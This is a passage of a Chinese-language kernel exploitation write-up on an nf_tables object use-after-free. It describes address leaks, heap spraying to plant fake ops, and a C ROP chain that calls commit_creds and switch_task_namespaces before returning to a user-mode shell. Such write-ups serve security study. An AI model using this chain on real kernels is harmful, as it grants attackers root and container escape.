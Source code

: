‍

内核代码段地址泄露的示意图：

​[![](assets/1706146477-0fe2ff9ebb6de4606cdbb6238206a6a0.png)](https://img2023.cnblogs.com/blog/1454902/202401/1454902-20240122221704685-1256649044.png)​

‍

然后泄露堆地址，利用 obj 和 table->udata 重叠泄露 obj->udata 指针，这里存放着伪造的 ops

​[![](assets/1706146477-be7cb62495ee5f7dced6c070038899cd.png)](https://img2023.cnblogs.com/blog/1454902/202401/1454902-20240122221705596-126567413.png)​

> PS: 用户态进程通过 NFTA\_OBJ\_USERDATA 控制 obj->udata 的内容

然后释放 table->udata & 再次堆喷 table->udata 占位修改 obj->ops 到 fake ops。

​[![](assets/1706146477-0cd13acc86ae2cfd243b5a93734fb08c.png)](https://img2023.cnblogs.com/blog/1454902/202401/1454902-20240122221706406-708346821.png)​

最后触发 `obj->ops->dump`​ 执行 ROP

```plain
*(uint64_t *)&ops[0x20] = kernel_off + 0xffffffff8198954b;//push rsi ; jmp qword ptr [rsi + 0x39]
    *(uint64_t *)&ops[0x30] = kernel_off + MODULE_CT_EXPECT_OBJ_TYPE_ADDR;
    *(uint64_t *)&ops[0x60] = kernel_off + 0xffffffff8112cfc0;//pop rdi; ret
    *(uint64_t *)&ops[0x68] = kernel_off + INIT_CRED;//init_cred
    *(uint64_t *)&ops[0x70] = commit_creds;
    *(uint64_t *)&ops[0x78] = kernel_off + 0xffffffff8112cfc0;//pop rdi; ret
    *(uint64_t *)&ops[0x80] = 1;
    *(uint64_t *)&ops[0x88] = kernel_off + 0xffffffff811b5600;//find_task_by_vpid
    *(uint64_t *)&ops[0x90] = kernel_off + 0xffffffff8112cfc0;//pop rdi; ret
    *(uint64_t *)&ops[0x98] = 0;
    *(uint64_t *)&ops[0xa0] = kernel_off + 0xffffffff818624b5;//or rdi, rax ; test rdi, rdi ; setne al ; ret
    *(uint64_t *)&ops[0xa8] = kernel_off + 0xFFFFFFFF815014BE; //pop rsi ; ret
    *(uint64_t *)&ops[0xb0] = kernel_off + 0xFFFFFFFF836765C0;//init_nsproxy
    *(uint64_t *)&ops[0xb8] = kernel_off + 0xffffffff811bd180; //switch_task_namespaces
    *(uint64_t *)&ops[0xc0] = kernel_off + 0xffffffff82141df6;//swagpgs; ret
    *(uint64_t *)&ops[0xc8] = kernel_off + 0xFFFFFFFF82201157;//iretq
    *(uint64_t *)&ops[0xd0] = (uint64_t)shell;
    *(uint64_t *)&ops[0xd8] = user_cs;
    *(uint64_t *)&ops[0xe0] = user_rflags;
    *(uint64_t *)&ops[0xe8] = user_rsp|8;
```